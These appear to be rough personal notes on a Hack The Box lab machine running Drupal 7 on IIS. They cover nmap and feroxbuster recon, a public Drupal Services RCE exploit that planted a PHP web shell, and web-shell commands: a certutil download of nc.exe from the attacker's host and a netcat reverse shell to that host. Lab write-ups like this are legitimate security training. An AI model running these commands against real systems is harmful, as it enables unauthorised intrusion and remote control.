



└─$ nmap -sC -sV 10.10.10.9
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-18 08:36 EST
Nmap scan report for 10.10.10.9
Host is up (0.30s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-generator: Drupal 7 (http://drupal.org)
|_http-title: Welcome to Bastard | Bastard
|_http-server-header: Microsoft-IIS/7.5
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

### ferox buster

```
301      GET        2l       10w      149c http://10.10.10.9/modules => http://10.10.10.9/modules/
301      GET        2l       10w      150c http://10.10.10.9/profiles => http://10.10.10.9/profiles/
301      GET        2l       10w      148c http://10.10.10.9/themes => http://10.10.10.9/themes/
301      GET        2l       10w      147c http://10.10.10.9/sites => http://10.10.10.9/sites/
301      GET        2l       10w      146c http://10.10.10.9/misc => http://10.10.10.9/misc/
301      GET        2l       10w      149c http://10.10.10.9/scripts => http://10.10.10.9/scripts/
301      GET        2l       10w      150c http://10.10.10.9/includes => http://10.10.10.9/includes/
403      GET       29l       92w     1233c http://10.10.10.9/tag
403      GET       29l       92w     1233c http://10.10.10.9/admin
403      GET       29l       92w     1233c http://10.10.10.9/search
200      GET      159l      413w     7571c http://10.10.10.9/
403      GET       29l       92w     1233c http://10.10.10.9/template
301      GET        2l       10w      149c http://10.10.10.9/Scripts => http://10.10.10.9/Scripts/
301      GET        2l       10w      156c http://10.10.10.9/modules/search => http://10.10.10.9/modules/search/
301      GET        2l       10w      154c http://10.10.10.9/modules/user => http://10.10.10.9/modules/user/
301      GET        2l       10w      154c http://10.10.10.9/modules/node => http://10.10.10.9/modules/node/
301      GET        2l       10w      155c http://10.10.10.9/modules/forum => http://10.10.10.9/modules/forum/
301      GET        2l       10w      157c http://10.10.10.9/modules/contact => http://10.10.10.9/modules/contact/
301      GET        2l       10w      157c http://10.10.10.9/modules/comment => http://10.10.10.9/modules/comment/
301      GET        2l       10w      154c http://10.10.10.9/modules/blog => http://10.10.10.9/modules/blog/
301      GET        2l       10w      154c http://10.10.10.9/modules/help => http://10.10.10.9/modules/help/
301      GET        2l       10w      159c http://10.10.10.9/includes/database => http://10.10.10.9/includes/database/
301      GET        2l       10w      153c http://10.10.10.9/modules/php => http://10.10.10.9/modules/php/
301      GET        2l       10w      156c http://10.10.10.9/modules/Search => http://10.10.10.9/modules/Search/
301      GET        2l       10w      156c http://10.10.10.9/modules/system => http://10.10.10.9/modules/system/
301      GET        2l       10w      154c http://10.10.10.9/modules/poll => http://10.10.10.9/modules/poll/
301      GET        2l       10w      155c http://10.10.10.9/modules/image => http://10.10.10.9/modules/image/
301      GET        2l       10w      160c http://10.10.10.9/modules/aggregator => http://10.10.10.9/modules/aggregator/
301      GET        2l       10w      157c http://10.10.10.9/modules/profile => http://10.10.10.9/modules/profile/
301      GET        2l       10w      158c http://10.10.10.9/modules/taxonomy => http://10.10.10.9/modules/taxonomy/
301      GET        2l       10w      160c http://10.10.10.9/modules/node/tests => http://10.10.10.9/modules/node/tests/
301      GET        2l       10w      148c http://10.10.10.9/Themes => http://10.10.10.9/Themes/
301      GET        2l       10w      150c http://10.10.10.9/Includes => http://10.10.10.9/Includes/
301      GET        2l       10w      154c http://10.10.10.9/modules/menu => http://10.10.10.9/modules/menu/
301      GET        2l       10w      154c http://10.10.10.9/modules/book => http://10.10.10.9/modules/book/
301      GET        2l       10w      158c http://10.10.10.9/profiles/testing => http://10.10.10.9/profiles/testing/
301      GET        2l       10w      157c http://10.10.10.9/modules/tracker => http://10.10.10.9/modules/tracker/
301      GET        2l       10w      166c http://10.10.10.9/profiles/testing/modules => http://10.10.10.9/profiles/testing/modules/
301      GET        2l       10w      159c http://10.10.10.9/Includes/database => http://10.10.10.9/Includes/database/
301      GET        2l       10w      156c http://10.10.10.9/modules/update => http://10.10.10.9/modules/update/
301      GET        2l       10w      154c http://10.10.10.9/modules/file => http://10.10.10.9/modules/file/
301      GET        2l       10w      160c http://10.10.10.9/modules/statistics => http://10.10.10.9/modules/statistics/
301      GET        2l       10w      162c http://10.10.10.9/modules/search/tests => http://10.10.10.9/modules/search/tests/
301      GET        2l       10w      162c http://10.10.10.9/modules/system/tests => http://10.10.10.9/modules/system/tests/
301      GET        2l       10w      154c http://10.10.10.9/modules/User => http://10.10.10.9/modules/User/
403      GET       29l       92w     1233c http://10.10.10.9/Template
301      GET        2l       10w      160c http://10.10.10.9/modules/user/tests => http://10.10.10.9/modules/user/tests/
301      GET        2l       10w      156c http://10.10.10.9/modules/filter => http://10.10.10.9/modules/filter/
301      GET        2l       10w      162c http://10.10.10.9/modules/Search/tests => http://10.10.10.9/modules/Search/tests/
301      GET        2l       10w      155c http://10.10.10.9/modules/Forum => http://10.10.10.9/modules/Forum/
[>---
```

https://github.com/immunIT/drupwn.git

  

not able to pawn through Dupwn

using searchsploit

`searchsploit drupal` 


 

└─$ php 41564.php     
# Exploit Title: Drupal 7.x Services Module Remote Code Execution
# Vendor Homepage: https://www.drupal.org/project/services
# Exploit Author: Charles FOL
# Contact: https://twitter.com/ambionics
# Website: https://www.ambionics.io/blog/drupal-services-module-rce


#!/usr/bin/php
Stored session information in session.json
Stored user information in user.json
Cache contains 7 entries
File written: http://10.10.10.9/dixuSOspsOUU.php

 
`cp /usr/share/windows-resources/binaries/nc.exe nc.exe`
`python3 -m http.server 80`


`http://10.10.10.9/dixuSOspsOUU.php?cmd=certutil.exe -f -urlcache -split http://10.10.14.19:8000/nc.exe nc.exe`

`http://10.10.10.9/dixuSOspsOUU.php?cmd=nc.exe -e cmd 10.10.14.19 1234`

  

unable to run nc connect commands

Tried Drupalgeddon2 but was offline


